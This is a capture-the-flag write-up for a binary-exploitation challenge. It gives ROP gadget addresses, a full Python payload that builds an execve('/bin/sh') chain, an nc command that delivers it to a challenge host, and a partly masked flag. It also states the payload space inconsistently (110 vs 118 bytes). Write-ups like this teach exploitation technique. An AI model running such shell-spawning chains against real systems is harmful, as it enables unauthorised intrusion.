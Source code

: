 ## klxsacre writeup

There's 110 bytes available for the payload. The variable starts at offset 0x30 from `RBP` so 48 + 8 (`RBP`) = 56.

174 (`0xae`) bytes is what `read` will accept.

174 - 56 = 118.
## ROP gadgets:

`402bd8 : pop rdi ; pop rbp ; ret`

`402bd6 : pop rsi ; pop r15 ; pop rbp ; ret`

`418eba : pop rdx ; ret 6` (This will return first and then adds 6 to the stack pointer `add rsp, 6`)

`42adab : pop rax ; ret`

`40141a : syscall`

Address of null-terminated "/bin/sh": `0x0000000000481779`
## Final payload:

`0x0000000000402bd8` => `rdi gadget address` + `0x0000000000481779` + `0x0000000000402bd6` => `rsi gadget address` + `0000000000000000` + `0000000000000000` + `0000000000000000` + `0x0000000000418eba` => `rdx gadget address` + `0000000000000000` + `000000000042adab` => `rax gadget address` + `AAAAAA` + `000000000000003b` + `000000000040141a`

```python
python3 -c "import sys; sys.stdout.buffer.write(
    b'1' +                                         
    b'\n'*30 +                                             
    b'1' +                                          
    b'\n'*30 +                                              
    b'y\n' +                                    
    b'A'*48 +                              # min size                              
    b'B'*8 +                               # accounting for rbp     

    b'\xd8\x2b\x40\x00\x00\x00\x00\x00' +  # pop rdi ; pop rbp ; ret
    b'\x78\x17\x48\x00\x00\x00\x00\x00' +  # rdi = '/bin/sh'
    b'\x00\x00\x00\x00\x00\x00\x00\x00' +  # rbp junk
                                                         
    b'\xd6\x2b\x40\x00\x00\x00\x00\x00' +  # pop rsi ; pop r15 ; pop rbp ; ret
    b'\x00\x00\x00\x00\x00\x00\x00\x00' +  # rsi = 0
    b'\x00\x00\x00\x00\x00\x00\x00\x00' +  # r15 junk
    b'\x00\x00\x00\x00\x00\x00\x00\x00' +  # rbp junk
                                                         
    b'\xba\x8e\x41\x00\x00\x00\x00\x00' +  # pop rdx ; ret 6
    b'\x00\x00\x00\x00\x00\x00\x00\x00' +  # rdx = 0
                                                                 
    b'\xab\xad\x42\x00\x00\x00\x00\x00' +  # pop rax ; ret
    b'AAAAAA' +                            # 6 junk bytes for ret 6
    b'\x3b\x00\x00\x00\x00\x00\x00\x00' +  # rax = 59 (execve)
    # by the time we get her,e rax = 0x3b; rdi => "/bin/sh"; rsi = 0; rdx = 0.                                              
    b'\x1a\x14\x40\x00\x00\x00\x00\x00'    # syscall
)" > pl.bin
```
## Solving the challenge:

`(cat pl.bin; cat) | nc 94.237.120.195 58183`
`cat flag.txt` (on the payload-spawned shell)

## Flag

`HTB{p0w3R_g41d_r34ct1on_3c47b...}`

## Notes:

* The `read_num` function reads 31 bytes from the input stream, so the panel option (`1`) needs to be padded with 30 whitespaces or line feeds before being sent.

* The same goes for the second panel.

* This doesn't happen when you are prompted a y/n option. In this case, only two bytes are read, which is why there's only `y\n` for the third prompt.

* There's 118 bytes available for the payload, out of which: 8 (`rdi gadget address`) + `8 (/bin/sh string)` + 8 (`padding for rbp in rdi gadget`) + 8 (`rsi gadget address`) + 8 (`rsi value, which is NULL`) + 16 (`padding for r15 and rbp in rsi gadget`) + 8 (`rdx gadget`) + 8 (`rdx value, which is NULL`) + 8 (`rax gadget`) + 6 (`padding for the ret 6 instruction in rdx gadget`) + 8 (`rax value, which is 0x3b, the syscall number for exec`) + 8 (`syscall gadget`) = 102 bytes are being used.


